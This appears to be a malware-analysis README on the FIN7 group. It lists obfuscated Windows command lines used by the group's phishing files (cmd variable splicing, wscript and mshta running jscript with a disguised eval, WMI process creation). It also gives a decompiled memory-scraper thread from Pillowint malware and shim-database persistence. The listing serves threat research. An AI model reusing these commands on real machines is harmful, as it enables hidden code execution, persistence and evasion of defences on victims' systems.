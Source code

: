 # FIN7

## Features

1. Phishing files can be confused by executing system commands in many ways.

```bash
cmd.exe /k "SET a01=wscr& SET a02=ipt&&call %a01%%a02% /e:jscript //b %TEMP%\errors.txt
//Splice into wscript execution
cmd.exe /c wscript.exe //b /e:jscript %TEMP%\crashpad.ini
//Use cmd to call wscript.exe to execute
wscript.exe //b /e:jscript %TEMP%\debug.txt
//Execute using wscript.exe
@set w=wsc@ript /b /e:js@cript %HOMEPATH%\tt.txt
@echo try{var fs=new ActiveXObject('Scripting.FileSystemObject');sh=new ActiveXObject('Wscript.Shell');p=sh.ExpandEnvironmentStrings('%%HOM'+'EPATH%%')+'\\pp.txt';var f=fs.OpenTextFile(p,1,false);for(i=0;i^<4;i++)f.SkipLine();var com='';while(!f.AtEndOfStream)com+=f.ReadLine().substr(1);f.Close();try{fs.DeleteFile(p, true);}catch(e){}this[String.fromCharCode(101)+'v'+'al'](com);}catch(e){}; >%HOMEPATH%\tt.txt
@copy /y %TMP%\unlock.cmd %HOMEPATH%\pp.txt
@echo %w:@=%|cmd
//After confusion, execute the command in the unlock.cmd batch file
wmic.exe process call create "cmd start /min cmd /c for /f \"usebackq delims=\" %x in (`FindStr /R /C:\"@#[0-9]#@\" \"%TEMP%\unlock.doc.lnk\"`) do %x|cmd >nul 2>&1 &"
//Execute using WMI no file format
cmd.exe /S /D /c" echo /*@#8#@*/try{sh=new ActiveXObject("Wscript.Shell");fs=new ActiveXObject("Scripting.FileSystemObject");p=sh.ExpandEnvironmentStrings("%TM"+"P%");f=fs.GetFile(p+"//unlock.doc.lnk");s=f.OpenAsTextStream(1,0);c=s.Read(2403);c=s.ReadAll();s.Close();this[String.fromCharCode(101)+'va'+'l'](c);}catch(e){} >%HOMEPATH%\t.txt  & wscript //b /e:jscript %HOMEPATH%\t.txt  >nul 2>&1 &"
//After the cmd executes the confusion, the command calls wscript to execute the contents of the unlock.doc.lnk file
mshta.exe "try{jelo = 'try{w=GetObject("","Wor"+"d.Application");this[String.fromCharCode(101)+\\'va\\'+\\'l\\'](w.ActiveDocument.Shapes(1).TextFrame.TextRange.Text);}catch(e){};';var fso = new ActiveXObject("Scripting.FileSystemObject");var sh = new ActiveXObject("Wscript.Shell");var p = sh.ExpandEnvironmentStrings("%HOMEPATH%") + "\\\\jelo.txt""
//Use mshta to bypass
cmd.exe /C set x=wsc@ript /e:js@cript %HOMEPATH%\ttt.txt & echo try{w=GetObject("","Wor"+"d.Application");this[String.fromCharCode(101)+'va'+'l'](w.ActiveDocument.Shapes(2).TextFrame.TextRange.Text);}catch(e){}; >%HOMEPATH%\ttt.txt & echo %x:@=%|cmd
//Simple splicing bypass
%WINDIR%\System32\Wscript.exe %TEMP%\AdobeUpdateManagementTool.vbs
%WINDIR%\System32\Wscript.exe %TEMP%\WindowsUpdate_X24532\beginer.vbs
//Environment variable bypass execution
```

2.Pillowint malware maintains persistence through Shim database installation: sdbinst.exe - q - p sdb4F19.sdb. The malware will sleep for 10 seconds before calling the thread.

```C
DWORD __stdcall MemoryScraperThread(LPVOID lpThreadParameter)
{
int v1;
HANDLE v2;
Sleep(10000u);  //Sleep for 10 seconds
v1= *(&nPriority + *(_DWORD *)(g_priorityIdx + 36));
v2 = GetcurrentThread();
  SetThreadPriority(v2, v1);
  call_back_f(CCMemoryScraper);  //Running callback of thread function
  return 0;
}
```

3. Malware will read the registry when executing system commands:HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces command value execute command，Or from %WinDir%\<system32 or sysnative>\sysvols\commands.txt execute command in file.
